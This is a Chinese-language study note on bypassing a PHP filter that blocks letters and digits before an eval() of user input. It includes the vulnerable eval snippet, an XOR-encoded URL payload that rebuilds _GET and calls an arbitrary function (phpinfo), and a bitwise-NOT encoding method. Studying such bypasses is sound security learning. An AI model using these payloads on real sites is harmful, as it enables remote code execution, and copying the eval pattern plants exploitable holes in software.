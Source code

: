 ```yaml
---

title: 第七周学习笔记--无字符绕过
date: 2020-09-14 17:43:55
categories: 笔记
description: 对传进参数`shell`进行正则匹配，过滤掉了从a-z，0-9，所以要通过不含字母和数字的情况下，去构造函数 方法一（异或）异或的符号是 ^ ,是一种运算符


---
```

# 第七周学习笔记

## 无字符绕过

```
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])){
	eval($_GET['shell']);
}
?>
```

- 对传进参数`shell`进行正则匹配，过滤掉了从a-z，0-9，所以要通过不含字母和数字的情况下，去构造函数

### 方法一（异或）

- 异或的符号是 ^ ,是一种运算符

```
0^0 = 0，
1^0 = 1，
0^1 = 1，
1^1 = 0
```

- 通过这种方法，绕过正则匹配，构造出我们想要的函数

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

- 其中`{%ff%ff%ff%ff^%a0%b8%ba%ab} = _GET`,`{%ff}()`由后面确定

  所以，函数其实是`${_GET}{%ff}();&%ff=phpinfo`

### 方法二（取反）

- 取反的符号是~，也是一种运算符，在数值的二进制表示方法上，将0变为1，1变为0，所以称为取反

```
<?php
$a=urlencode(~'phpinfo');
echo $a；
?>
```
